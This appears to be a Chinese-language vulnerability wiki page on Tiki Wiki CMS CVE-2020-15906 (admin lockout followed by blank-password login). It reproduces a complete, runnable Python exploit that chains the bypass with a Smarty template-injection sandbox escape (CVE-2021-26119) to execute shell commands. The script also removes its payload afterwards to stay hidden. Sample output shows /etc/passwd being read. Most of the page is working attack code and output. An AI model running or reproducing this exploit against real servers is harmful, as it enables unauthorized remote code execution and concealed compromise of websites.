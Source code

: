 <languages /> <translate>

漏洞描述
--------

</translate> <translate> Tiki Wiki CMS Groupware或簡稱為Tiki（最初稱為TikiWiki）是一種免費且開源的基於Wiki的內容管理系統和在線辦公套件。在如下這些版本21.2, 20.4, 19.3, 18.7, 17.3, 16.4前存在一處邏輯錯誤，管理員賬戶被爆破60次以上時將被鎖定，此時使用空白密碼即可以管理員身份登錄後台。 </translate>

<translate>

影響範圍
--------

</translate> 16.x - 21.1

POC
---

    python poc.py <target> / id

    #!/usr/bin/env python3
    """
    Tiki Wiki CMS GroupWare Serverside Template Injection Remote Code Execution Vulnerability
    This is a demonstration of CVE-2021-26119 (Smarty Template Engine template_object Sandbox Escape PHP Code Injection)
    Written by: Steven Seeley of Qihoo 360 Vulcan Team
    Exploit tested against: Tiki Wiki 20.3 (Tarazed)
    Bug 1: CVE-2020-15906
        - An unauthenticated user can bypass the authentication by bruteforcing the admin account > 50 times and login with a blank password
        - Works on: <= 21.1 (UY_Scuti)

    Bug 2: CVE-2021-26119
        - An admin user can trigger a serverside template injection and gain remote code execution by escaping the sandbox of the Smarty Template Engine by leveraging the 'template_object' property
        - Works on: <= 22.2 (Corona_Borealis) and impacts Smarty <= 3.1.38 (latest)
    # Notes
    - *WARNING* This exploit will lock out the administrator account
    - It was possible in older versions of Tiki Wiki (including 20.3) that you could:
      1. Edit Smarty templates with a user that had the 'tiki_p_edit_templates' privilege, but Tiki clued into this and has since disabled this 'feature' by default, see using [Risky preferences](https://doc.tiki.org/Risky-Preferences)
      2. Disable the Smarty sandbox entirely by unchecking the "Smarty Security" checkbox in the general security tab which is no longer possible.
      However it's still possible for an admin (or user with the 'tiki_p_admin' permission assigned) to add Smarty template syntax to the 'feature_custom_html_head_content' option under [Customization](http://doc.tiki.org/Customization) in the [Look and Feel](http://doc.tiki.org/Look-and-Feel) control panel menu. This is enough for attackers to escape the Smarty sandbox leveraging either CVE-2021-26119 or CVE-2021-26120 and execute arbitrary remote code.
    # Example
    researcher@incite:~/tiki$ ./poc.py
    (+) usage: ./poc.py <host> <path> <cmd>
    (+) eg: ./poc.py 192.168.75.141 / id
    (+) eg: ./poc.py 192.168.75.141 /tiki-20.3/ id
    researcher@incite:~/tiki$ ./poc.py 192.168.75.141 /tiki-20.3/ "id;uname -a;pwd;head /etc/passwd"
    (+) blanking password...
    (+) admin password blanked!
    (+) getting a session...
    (+) auth bypass successful!
    (+) triggering rce...
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    Linux target 5.8.0-40-generic #45-Ubuntu SMP Fri Jan 15 11:05:36 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
    /var/www/html/tiki-20.3
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    # References
    - Maximilian Barz's poc at https://github.com/S1lkys/CVE-2020-15906
    """

    import requests
    import sys
    import re

    def auth_bypass(s, t):
        d = {
            "ticket" : "",
            "user" : "admin",
            "pass" : "trololololol",
        }
        h = { "referer" : t }
        d["ticket"] = get_ticket(s, "%stiki-login.php" % t)
        d["pass"] = "" # blank login
        r = s.post("%stiki-login.php" % t, data=d, headers=h)
        r = s.get("%stiki-admin.php" % t)
        assert ("You do not have the permission that is needed" not in r.text), "(-) authentication bypass failed!"

    def black_password(s, t):
        uri = "%stiki-login.php" % t
        # setup cookies here
        s.get(uri)
        ticket = get_ticket(s, uri)
        d = {
            'user':'admin',
            'pass':'trololololol',
        }
        # crafted especially so unsuccessful_logins isn't recorded
        for i in range(0, 51):
            r = s.post(uri, d)
            if("Account requires administrator approval." in r.text):
                print("(+) admin password blanked!")
                return
        raise Exception("(-) auth bypass failed!")

    def get_ticket(s, uri):
        h = { "referer" : uri }
        r = s.get(uri)
        match = re.search('class="ticket" name="ticket" value="(.*)" \/>', r.text)
        assert match, "(-) csrf ticket leak failed!"
        return match.group(1)

    def trigger_or_patch_ssti(s, t, c=None):
        # CVE-2021-26119
        p = { "page": "look" }
        h = { "referer" : t }
        bypass = "startrce{$smarty.template_object->smarty->disableSecurity()->display('string:{shell_exec(\"%s\")}')}endrce" % c
        d = {
            "ticket" : get_ticket(s, "%stiki-admin.php" % t),
            "feature_custom_html_head_content" : bypass if c else '',
            "lm_preference[]": "feature_custom_html_head_content"
        }
        r = s.post("%stiki-admin.php" % t, params=p, data=d, headers=h)
        r = s.get("%stiki-index.php" % t)
        if c != None:
            assert ("startrce" in r.text and "endrce" in r.text), "(-) rce failed!"
            cmdr = r.text.split("startrce")[1].split("endrce")[0]
            print(cmdr.strip())

    def main():
        if(len(sys.argv) < 4):
            print("(+) usage: %s <host> <path> <cmd>" % sys.argv[0])
            print("(+) eg: %s 192.168.75.141 / id"% sys.argv[0])
            print("(+) eg: %s 192.168.75.141 /tiki-20.3/ id" % sys.argv[0])
            return
        p = sys.argv[2]
        c = sys.argv[3]
        p = p + "/" if not p.endswith("/") else p
        p = "/" + p if not p.startswith("/") else p
        t = "http://%s%s" % (sys.argv[1], p)
        s = requests.Session()
        print("(+) blanking password...")
        black_password(s, t)
        print("(+) getting a session...")
        auth_bypass(s, t)
        print("(+) auth bypass successful!")
        print("(+) triggering rce...\n")
        # trigger for rce
        trigger_or_patch_ssti(s, t, c)
        # patch so we stay hidden
        trigger_or_patch_ssti(s, t)

    if __name__ == '__main__':
        main()